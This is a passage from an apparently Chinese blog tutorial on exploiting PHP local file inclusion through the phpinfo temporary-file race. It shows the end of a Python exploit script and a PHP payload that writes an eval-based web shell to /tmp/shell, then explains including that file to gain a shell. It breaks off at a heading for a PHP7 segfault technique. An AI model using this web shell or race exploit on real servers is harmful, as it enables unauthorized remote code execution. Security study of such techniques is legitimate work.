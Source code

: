 ```cobol
                print("\n[*] 收到中断信号，正在停止攻击...")
                e.set()
 
    except socket.error as e:
        print("连接错误：%s" % str(e))
 
    for t in threads:
        t.join()
 
    print("\n[*] 攻击结束。")
 
 
if __name__ == "__main__":
    main()
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/231fd118bf3cb93ff3a381df26894c7e.png" alt="" style="max-height:567px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/5cd18cdacba469eea9886b3906f16b93.png" alt="" style="max-height:253px; box-sizing:content-box;" />
这四个地方 按照自己的设定来实现

<img src="https://i-blog.csdnimg.cn/blog_migrate/6d749e8927b3f46e686ca33fd3e45fef.png" alt="" style="max-height:148px; box-sizing:content-box;" />


成功了 这个时候 临时文件就不会被删除



<img src="https://i-blog.csdnimg.cn/blog_migrate/5801b02ac5b00e65d569bbf3180e8841.png" alt="" style="max-height:429px; box-sizing:content-box;" />


这里大家不要绕晕了 因为我们其实保存的临时文件 还是PHP[四个字符]这种格式

但是我们的木马写的是

```php
<?php file_put_contents('/tmp/shell', '<?=eval($_REQUEST[1])?>')?>
```

重新写一个文件 到tmp的shell下

所以我们这里可以去tmp/shell包含

因为上面的exp会一直发送垃圾包给phpinfo 并且 同时发送文件包含到lfi.php中 包含临时文件

然后临时文件内容为写入shell 从而达到getshell

## PHP7 Segment Fault

这里看名字就知道了

### 利用条件
